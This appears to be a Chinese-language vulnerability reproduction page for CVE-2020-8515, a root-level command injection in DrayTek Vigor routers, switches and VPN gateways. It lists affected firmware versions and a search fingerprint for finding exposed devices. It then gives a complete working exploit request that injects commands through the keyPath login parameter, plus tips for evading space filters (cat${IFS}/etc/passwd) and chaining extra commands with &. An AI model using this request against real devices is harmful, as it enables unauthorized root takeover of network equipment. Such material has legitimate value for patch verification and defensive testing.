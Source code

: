 # DrayTek企业网络设备 远程命令执行 CVE-2020-8515

## 漏洞描述

DrayTek URI未能正确处理SHELL字符，远程攻击者可以利用该漏洞提交特殊的请求，可以ROOT权限执行任意命令。

远程命令注入漏洞被标记为CVE-2020-8515，主要影响了DrayTek Vigor网络设备，包括企业交换机、路由器、负载均衡器和VPN网关。

## 漏洞影响

<a-checkbox checked>Vigor2960 < v1.5.1</a-checkbox></br>

<a-checkbox checked>Vigor300B < v1.5.1</a-checkbox></br>

<a-checkbox checked>Vigor3900 < v1.5.1</a-checkbox></br>

<a-checkbox checked>VigorSwitch20P2121 <= v2.3.2</a-checkbox></br>

<a-checkbox checked>VigorSwitch20G1280 <= v2.3.2</a-checkbox></br>

<a-checkbox checked>VigorSwitch20P1280 <= v2.3.2</a-checkbox></br>

<a-checkbox checked>VigorSwitch20G2280 <= v2.3.2</a-checkbox></br>

<a-checkbox checked>VigorSwitch20P2280 <= v2.3.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Vigor 2960"</a-checkbox></br>

## 漏洞复现

登录页面抓包

![](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-7231530.png)

请求包如下

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1

Connection: close
Content-Length: 67
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36
Content-Type: text/plain; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

action=login&keyPath=%27%0A%2fbin%2fls%0A%27&loginUser=a&loginPwd=a
```

![](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220314121856526.png)

其中出现注入点的参数为 `keyPath`

出现空格需要替换，例如 cat /etc/passwd --> cat${IFS}/etc/passwd

可以使用 & 执行额外一条命令 (URL编码为 %26)

![](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220314121906002.png)


